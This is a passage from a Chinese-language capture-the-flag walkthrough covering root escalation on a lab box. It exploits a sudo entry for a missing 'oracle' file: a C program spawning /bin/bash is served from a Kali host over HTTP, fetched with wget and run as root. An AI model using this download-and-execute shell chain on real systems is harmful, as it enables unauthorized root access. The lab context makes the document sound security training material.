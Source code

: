 完成了提权到 trinity 用户。

### 提权 ROOT

继续 `sudo -l`, 能用 ROOT 身份执行一个叫 Oracle 的文件, 不过本地没有这个文件, 这就简单了, 建一个唤起 `/bin/bash` 的二进制文件, 重命名为oracle 就行了。

![5-1.png](5-1.png)

最简单的 c 程序: `oracle.c`

```c
#include <stdlib.h>
void main() {
    system("/bin/bash");
}
```

写完编译的时候发现 `gcc` 是没有配置的, 那就在 kali 里编译了发过去好了:

```bash
vim oracle.c
sudo chmod 777 oracle.c
gcc -o oracle oracle.c
python -m http.server 80
```

另一边下载就行:

```bash
wget http://192.168.170.145/oracle
chmod 777 oracle
sudo /home/trinity/oracle
```

![5-3.png](5-3.png)

> 注意要用绝对路径;

这里又报了个错, 因为目标机上的 c 库貌似比较久了, 不能兼容 kali 上的, 需要改一下, 在 kali 上加上 `-static` 参数, 这个参数会吧所有需要的库一块编译到二进制文件里去, 这样就 "不求人" 了。
